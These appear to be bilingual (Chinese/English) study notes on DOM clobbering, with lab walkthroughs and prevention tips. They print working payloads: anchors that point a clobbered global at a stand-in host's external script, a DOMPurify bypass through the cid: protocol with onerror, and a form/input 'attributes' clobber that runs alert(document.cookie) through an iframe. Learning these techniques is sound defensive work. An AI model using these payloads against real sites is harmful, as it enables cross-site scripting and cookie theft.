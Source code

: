 To exploit this vulnerable code, you could inject the following HTML to clobber the someObject reference with an anchor element:

```js
<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>
```

由于两个锚使用相同的ID，DOM将它们分组到一个DOM集合中。 DOM clobbering向量随即用这个DOM集合覆盖`someObject`引用。在最后一个锚点元素上使用`name`属性来关闭指向外部脚本的`someObject`对象的`url`属性。

```js
lab1：
vuln code ：
let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}

<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

###第二个锚点中的name属性包含值“avatar”，该值将用href属性的内容替换avatar属性。
#请注意，该站点使用DOMPurify过滤器，但是，DOMPurify允许使用 cid: 协议，它不使用URL编码双引号
#当您进行第二次post时，浏览器使用 newly-clobbered的全局变量，该变量将有效负载走私到OneError事件处理程序中并触发alert（）。


```

另一种常见的技术是将`form`元素与诸如`input`到clobber DOM属性之类的元素一起使用
例如，clobbering `attributes`属性使您能够绕过在其逻辑中使用它的客户端筛选器，如：

```html
<form onclick=alert(1)><input id=attributes>Click me
```

在这种情况下，客户端过滤器将遍历DOM并遇到一个白名单`form`元素。通常，过滤器将循环遍历`form`元素的`attributes`属性，并删除任何列入黑名单的属性。但是，由于`attributes`属性已与`input`元素合并，因此过滤器将通过`input`素进行循环。由于`input`元素具有未定义的长度，因此不满足过滤器`for`循环的条件（例如`i<element.attributes.length`），过滤器只是移动到下一个元素。这会导致过滤器完全忽略`onclick`事件，从而允许在浏览器中调用`alert（）`函数。

```html
lab2：
<form id=x tabindex=0 onfocus=alert(document.cookie)><input id=attributes>

<iframe src=https://your-lab-id.web-security-academy.net/post?postId=3 onload="setTimeout(someArgument=>this.src=this.src+'#x',500)">
```

library使用`attributes`属性过滤HTML属性。但是，仍然可以clobber(删除？) `attributes`属性本身，从而导致长度未定义。这允许我们将任何想要的属性注入表单元素。在本例中，我们使用`onfocus`属性走私一个`alert（）`函数。

加载`iframe`时，在500毫秒延迟后，它会将`#x`片段添加到页面URL的末尾。延迟是必要的，以确保在执行JavaScript之前加载包含注入的注释。这会**导致浏览器**focus **ID为“x”的元素**，即在注释中创建的表单。`onfocus`事件处理程序然后执行`alert（）`负载。

## How to prevent DOM-clobbering attacks

- 检查**对象和函数是否合法。**

  如果要过滤DOM，请确保检查对象或函数是否不是DOM节点。

- 避免错误的代码模式。

  **避免**将全局变量与 **logical OR operator**结合使用

- 使用经过良好测试的库

  例如DOMPurify
